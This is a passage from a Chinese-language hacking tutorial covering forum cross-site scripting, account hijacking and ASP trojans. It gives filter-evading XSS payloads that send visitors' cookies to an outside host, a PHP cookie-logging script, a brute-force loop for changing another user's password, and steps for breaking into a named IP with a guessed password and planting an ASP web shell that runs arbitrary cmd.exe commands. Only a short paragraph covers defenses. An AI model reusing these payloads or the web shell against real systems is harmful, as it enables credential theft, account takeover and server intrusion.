

成功了，但是这样只是给了个警告而已，没有获取Cookie信息，那大家是不是知道下面该怎么办了？

好了，下面我们来把获取Cookie的ASP文件插入进去吧。为了防止论坛还过滤了一些字符，我们把所有的内容全用ASCII码来代替，因为[img]字符是论坛代码本身有的，所以不用ASCII码表示，来看看我提交的内容是什么吧：

```text
[img]javascript:window.open('http://www.longker.com/ywzy/info.asp?msg='+document.cookie),('height=0,width=0')[/img]
```

转换成ASCII码变为下面的：

```text
[img]&#106&#97&#118&#97&#115&#99rip&#116:window.open&#40&#39http://www.longker.com/ywzy/info.asp?msg&#61&#39&#43document.cookie),('&#104&#101&#105&#103&#104&#116=&#48,&#119&#105&#100&#116&#104=&#48&#39)[/img]
```

啊啊，看起来很复杂哦。我的本意是想打开一个看不见的“窗口”，但是由于没学好网页制作语言，因此没有能成功。提示出现错误，我也懒得去找些网页制作的书看了。

再想别的办法吧，心想不管了，能不能得到Cookie还是问题呢，自己先测试下，不管窗口大小了，如下：

```text
[img]javascript:window.open('http://www.longker.com/ywzy/info.asp?msg='+document.cookie)[/img]
```

转换成ASCII码是：

```text
[img]&#106&#97&#118&#97&#115&#99rip&#116:window.open&#40&#39http://www.longker.com/ywzy/info.asp?msg&#61&#39&#43document.cookie&#41[/img]
```

OK，成功了，虽然图片不能显示（因为是虚构的嘛），但是又开了一个新的窗口，见图2-5-4和图2-5-5。





在浏览器的上方看见什么了？啊啊，时间，id和密码等信息哦，这样只要你访问这个页面并且你已经登录的话，你的Cookie信息就全在里面了，是不是很恐怖呢？如果你的论坛密码和QQ邮箱的密码是一样的，那你就惨了，所以在进论坛的时候还是存在安全隐患的。这也是我写这篇文章的原因了。

弹出个窗口肯定让人怀疑的，那怎么不让它弹出窗口呢？我提交的代码是：

```text
[img]javascript:document.location='http://www.longker.com/ywzy/info.asp?msg='+document.cookie[/img]
```

转换成ASCII码就是：

```text
[img]&#106&#97&#118&#97&#115&#99rip&#116;&#108&#111&#99&#97&#116&#105&#111&#110&#61&#39http://www.longker.com/ywzy/info.asp?msg&#61&#39&#43document.cookie[/img]
```

换成这个代码后就不会出现新窗口了，去看看我的网站上保存的那个记录 Cookie 的文件，已经很大了，如图2-5-6所示。



### 4. 思考及解决办法

值得注意的是，经过对国内的几个流行的留言板和论坛的测试，基本上所有的免费留言板程序都有问题。主要还是因为过滤机制不严密造成的，像一些ubb语句，经过那样严格的过滤，这样就很容易被人家利用，对广大网民造成危害，影响你站点的声誉。

下面是如何防范的问题了，如何防范XSS跨站攻击？首先是作为浏览者，在你的Web浏览器上禁用Javascript脚本，好像不太可能，因为一旦禁用，很多功能就丧失了，这个方法是下策。还有，不要访问包含 `<script>` 字符的连接，当然一些官方的URL不会包括任何脚本元素。

再者是作为程序的开发这而言：开发者要仔细审核代码，对提交输入数据进行有效检查，如空格、转义字符等，这个是上策。但是，由于XSS漏洞可被利用的多样性，程序员自己要明白具体需要过滤的字符，这主要依赖于所开发程序的作用，建议过滤掉所有元字符。

另附：

php空间获取cookie的代码文件：

```php
<?php
$info = getenv("QUERY_STRING");
if ($info) {
    $fp = fopen("longker.txt", "a");
    fwrite($fp, $info."\n");
    fclose($fp);
}
?>
```

## 2.6 一次简单POST攻击的例子

经常听说有些留言本安全性不强，允许通过直接POST数据、修改资料的攻击例子，但是我一直没碰到这么简单的留言本。

直到某日在网上闲逛时，发现一个论文网站，未注册用户只能看论文标题，于是注册了一个账号，想进去学习学习。

没想到免费注册用户也只可以看论文概述，只有收费用户才可以看全文。在留言本上转了转，这个留言本结构比较简单，很可能是直接拿网络上的免费代码修改了一下就用。于是想尝试修改注册用户密码，进去学习学习。看一下html代码，在修改密码页面有这么几句：

```html
<td width="17%">用 户 名：</td>
<td width="33%"><font size="3"><b>www417
<input type="hidden" name="UserName"
value="www417">
<input type="hidden" name="UserID" value="55932">
```

利用hidden标签，很可能它是通过userid& username检测的。让我们来尝试直接POST指定的变量和数据，看看有什么效果！

例如：

```text
http://www.xxx.com/zhuce/modifyPwd.asp?username=www417&userid=xxx&oldpwd=yyy&newpwd=123&cnewpwd=123
```

- username：为我们要偷的用户。
- userid：用户ID号，这个我们不知道。
- oldpwd：为原来的密码，用我们的。
- newpwd：为新密码。
- cnewpwd：为重复新密码。

理想的情况下是用户正确登录以后修改密码，服务器上modifypwd.asp只根据用户提交的变量修改数据库中数据，并且不比较当前登录用户的密码和此用户要修改密码是否匹配。

另外还要说明一下，这站点页面还有个问题，就是hidden的变量，在我测试中发现只要userid和username匹配就可以更改资料，问题就在如何得到有权限用户的userid。还好，在留言板上有个aaa的人勤劳地回答各类问题，拿他开刀！

由于55933是最后一个申请用户——我的ID，再申请了一个用户就可以发现ID是加一递增的。这样可以POST数据，直到正确为止！我们只要有一份写有POST数据的文本就可以了！

```c
#include<stdio.h>
main()
{
    int i;
    for(i=0; i<55933; i++)
    {
        printf("\nwww.xxx.com/zhuce/modifyPwd.asp?username=aaa&userid=%d&oldpwd=456&newpwd=123&cnewpwd=123", i);
    }
}
```

运行：c:\temp.exe >temp.txt
这样就生成了一个扫描列表，导入到随便一款unicode扫描器中。

马上试了一下，无论密码是否正确，网页总有200返回，所以扫描器不能区分，总是报告发现漏洞。不过不要紧。等POST完以后，再用admin登录。

现在免费的脚本很多，但大多存在严重的安全漏洞，以上这个留言本就是一个最典型的例子。我已经通知此网站管理员，他们也在第一时间内修改了modifypwd.asp这个文件。

## 2.7 利用ASP的特殊功能来实现的木马和入侵

Windows下传统意义上的木马都是一个独立的EXE程序，他们都需要单独开一个端口来实现监听远程的客户端，并且都会去改动系统注册表或是系统文件，用来保证每次开机的时候能启动自己的目的，所以很容易被人发现，而且一旦对方主机的管理员配置了防火墙，限制了主机开放的端口，则木马就都会失效。典型的例子就是如果你有机会去给一台主机种木马的话，最好先去ping一下对方的IP地址，如果你PING不通的话劝你最好放弃，因为这说明对方主机肯定装了防火墙，所以对ICMP的报文不会回应的，当然你的木马所开的端口也就是非法端口，从而无法实现远程连接。其实对于NT下开启了WEB服务的主机，我们可以去利用ASP的程序来实现一个简单的远程控制，这是由于ASP中的内置FSO组件可以用来实现文件的大部分操作的，如果我们稍加利用就可以做出一个非常的小木马，可以用来在对方主机上实现各种文件操作，包括新建文本文件和目录，删除任意文件和目录，随意浏览对方主机所有硬盘上的文件，并且可以查看文本文件内容，还可以任意在对方主机上拷贝文件。

好了现在我给大家介绍一个非常不错的现成的ASP管理程序，网辰在线网页维护系统2.0，你可以来我的主页找到这套ASP的程序。既然已经有了测试程序当然我们也还要找一个测试环境，用LETMEIN简单的找一会儿，就发现了一个目标。

我们用letmein 61.139.46.100 all g这个命令来对61.139.46.100这台主机进行一个简单的密码探测看看结果是什么（如图2-7-1）：

不错，我们很快就发现了对方主机的用户里有一个用户名为billing的朋友，他的密码恰巧也是billing。好了，我们这时候就可以用FTP连接上去看看对方的FTP目录是什么了。这里多讲一句如果你还不是特别熟悉FTP的命令格式的话，就用一个图形界面的FTP工具好了；WINDOWS下自带的FTP工具实在是不太方便的，但其他很多高手的文章里偏偏都是用他的多，其实CUTEFTP就可以很好的满足我们的要求，而且最重要的是非常的方便，来看看吧（如图2-7-2）。





图2-7-1

图2-7-2

我们首先设置好我们的用户名和密码，还有FTP的主机地址，就可以直接连到对方主机里了。不错，我们的运气还可以，这个用户有一个可以用WEB浏览的目录，也就是说非常符合我们的实验条件的。快把我们准备好的几个ASP程序放过去吧，这时候我们就可以直接用鼠标把ASP程序给拽过去，是不是要比用命令行的格式快多了轻松多了。等所有程序拷贝过去以后，我们就可以用IE浏览器去对方的主机来执行我们的ASP程序了，我们在地址栏里用http://61.139.46.100/index.asp来执行程序，首先这个ASP的管理程序会让我们输入一个密码来证明我们的身份，当然密码是我们可以直接在本地就设置好了的。这样可以保证其他人不会轻易地利用我们辛苦种下的程序。然后我们就可以直接看到对方这台NT4.0上的目录列表情况了，好好看看，你会发现他做的非常像一个资源管理器，所以我们可以很轻松地上手（如图2-7-3）。

我们可以利用编辑命令来查看对方主机上的文本文档，如下面就是我来查看对方主机的c:\boot.ini这个文件的内容。当然也可以直接在下面这里来更改文件的内容（如图2-7-4）。





图2-7-3

图2-7-4

但是如果我们想要下载对方主机WEB目录以外的文件，如何来实现呢？其实也很简单的，我们只要选中我们想要的文件，然后把他拷贝到对方主机上的WEB目录下就可以了，但我们怎么确定对方主机WEB目录的物理路径呢？呵呵，也很简单的，只要直接在URL后面加上一个 .ida就可以看到了，好象这样子（如图2-7-5）；

看到了对方的WEB目录，就是d:\inetpub\billing\下。下面我们选中“d:\chat2.zip这个文件，选择复制命令然后添入我们要复制的目录d:\inetpub\billing\1998\下就可以了（如图2-7-6）。





图2-7-5

图2-7-6

当命令成功执行后浏览器就会返回下面的消息（如图2-7-7）。

其实用这个程序我们实际上可以做很多事情，而且操作都是非常简单的，稍微看看就可以学会的。讲了这么多，可实际上我们还有一个问题没有解决呢，就是对方的WEB目录下并没有可执行的目录在如：cgi-bin。如果我们想要执行一个程序或是其他命令的话就不太方便的了，其实这个问题也困扰了我很久，直到最近的几篇文章的出现才解决了这个问题。下面把这个我已经编译好的ASP程序代码给大家看，利用这个程序我们可以非常轻松地在对方主机上运行任意命令，而且所有程序执行后的结果我们都可以看到！

```
vbscript
<%@ Language=VBScript %>
```

[PAGE 35]

```
asp
<%
Dim oScript, oScriptNet, oFileSys, oFile
Dim szCMD, szTempFile
On Error Resume Next
' -- create the COM objects that we will be using -- '
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
' -- check for a command that we have posted -- '
szCMD = Request.Form(".CMD")
If (szCMD <> "") Then
    ' --- Use a poor man's pipe ... a temp file --- '
    szTempFile = "C:\" & oFileSys.GetTempName()
    Call oScript.Run("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
    Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0)
End If
%>
<HTML>
<BODY>
<FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
<input type=text name=".CMD" size=45 value="<%= szCMD %>">
<input type=submit value="Run">
</FORM>
<PRE>
<%
If (IsObject(oFile)) Then
    ' --- Read the output from our command and remove the temp file --- '
    On Error Resume Next
    Response.Write Server.HTMLEncode(oFile.ReadAll)
    oFile.Close
    Call oFileSys.DeleteFile(szTempFile, True)
End If
%>
</BODY>
</HTML>
```



图 2-7-7



图 2-7-8

